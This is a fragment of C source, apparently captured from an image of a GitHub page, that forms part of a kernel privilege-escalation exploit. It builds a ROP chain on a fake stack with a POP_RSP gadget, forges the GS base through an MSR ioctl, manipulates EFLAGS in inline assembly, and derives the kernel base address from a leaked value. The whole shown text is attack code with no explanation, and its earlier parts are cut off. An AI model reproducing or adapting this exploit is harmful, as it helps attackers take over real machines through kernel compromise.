 ```c

		while (1){
			*(ul*) &fake_stack[0xf50] = POP_RSP +  *kbase;
			*(ul*) &fake_stack[0xf58] = (ul) chain;
		};

		return  0;
	}

	while (!*&kbase[1]){} // wait for child to fake gs

	asm  volatile (
		".intel_syntax  noprefix\n"
		"push  0x40206\n"
		"popf\n"
		".att_syntax  prefix"
		:
		:
		:	
	);

	ioctl(fd, MSR_GS_BASE, KERNEL_GS);
	
	naked_syscall();
	*kbase =  *(ul*) &fake_stack[0xf50] -  0x120012f;

	while (1)
		naked_syscall();

	stop("finished");
	return  0;
}
```

